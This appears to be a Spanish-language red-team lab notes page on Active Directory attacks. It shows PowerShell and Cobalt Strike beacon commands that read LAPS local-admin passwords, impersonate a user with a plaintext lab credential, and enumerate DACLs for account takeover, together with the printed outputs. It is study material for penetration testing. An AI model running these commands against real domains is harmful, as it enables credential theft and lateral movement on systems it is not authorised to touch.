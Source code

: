 ```shell
# Leer las contraseñas en este caso utilizaremos al usuario c.rodolfo que es parte del grupo laps operators que tienen permisos de administrar laps.
powershell Get-AdmPwdPassword -ComputerName wkstn-1 | fl

ComputerName        : WKSTN-1
DistinguishedName   : CN=WKSTN-1,OU=Workstations,DC=dev,DC=evilcorp,DC=local
Password            : &OF[T;#k$5Wg
ExpirationTimestamp : 24/02/2022 15:30:09

## Teniendo la contraseña podemos movernos lateralmente con psexec,wmiexec o cobalt.

## alternativa II
powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=evilcorp,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier

ObjectDN                                              SecurityIdentifier
--------                                              ------------------
OU=Workstations,DC=dev,DC=cyberbotic,DC=io            S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
DEV\1st Line Support

beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
P0OPwa4R64AkbJ

```

---

## Listas de control de acceso discrecional (DACL)
Puede haber instancias en todo el dominio en las que algunos directores tengan ACL en cuentas más privilegiadas, lo que permite abusar de ellas para apoderarse de la cuenta. Un ejemplo simple de esto podría ser un grupo de "soporte" que puede restablecer las contraseñas de los "Administradores de dominio"

Podemos comenzar dirigiéndonos a un solo principal. Esta consulta devolverá cualquier principal que tenga **GenericAll** , **WriteProperty** o **WriteDacl** en la cuenta de usuario jadams
```powershell
powershell Get-DomainObjectAcl -Identity jadams | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-2697495467-513533215-122973509-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl

SecurityIdentifier    : S-1-5-21-2697495467-513533215-122973509-1137
ActiveDirectoryRights : GenericAll

SecurityIdentifier    : S-1-5-21-2697495467-513533215-122973509-1137
ActiveDirectoryRights : GenericAll

powershell ConvertFrom-SID "S-1-5-21-2697495467-513533215-122973509-1137"
DEV\1st line support
```
